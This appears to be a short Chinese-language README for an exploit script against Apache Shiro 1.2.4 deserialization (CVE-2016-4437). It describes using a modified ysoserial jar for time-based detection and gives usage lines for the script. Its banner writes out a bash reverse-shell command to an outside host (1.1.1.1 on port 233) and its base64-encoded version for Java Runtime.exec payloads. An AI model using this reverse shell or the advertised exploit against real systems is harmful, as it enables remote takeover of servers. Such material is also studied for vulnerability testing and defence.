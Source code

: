 # Readme
shiro &lt;= 1.2.4 反序列化远程命令执行利用脚本  
使用延时判断key和gadget，即使目标不出网也可以检测是否存在漏洞  
python脚本需要调用ysoserial-sleep.jar，ysoserial-sleep.jar文件并不是原版的，增加了延时命令功能，故不要使用原版ysoserial，否则将无法检测  
```
+-------------------------------------------------------------------------------------------------------+
+ DES: By zhzyker as https://github.com/zhzyker/exphub                                                  +
+      Vuln Name: CVE-2016-4437 | Shiro 550  |  Shiro 1.2.4                                             +
+                                                                                                       +
+      Nc shell need encode command: http://www.jackson-t.ca/runtime-exec-payloads.html                 +
+      Original: bash -i >&/dev/tcp/1.1.1.1/233 0>&1                                                    +
+      Encoding: bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvMjMzIDA+JjE=}|{base64,-d}|{bash,-i}  +
+-------------------------------------------------------------------------------------------------------+
+ USE: python3 <filename> <url>                                                                         +
+ EXP: python3 shiro-1.2.4_rce.py http://1.1.1.1:8080                                                   +
+ VER: Apahce Shiro <= 1.2.4                                                                            +
+-------------------------------------------------------------------------------------------------------+
```

# RCE

![images](/image/1.gif)
![images](/image/2.gif)
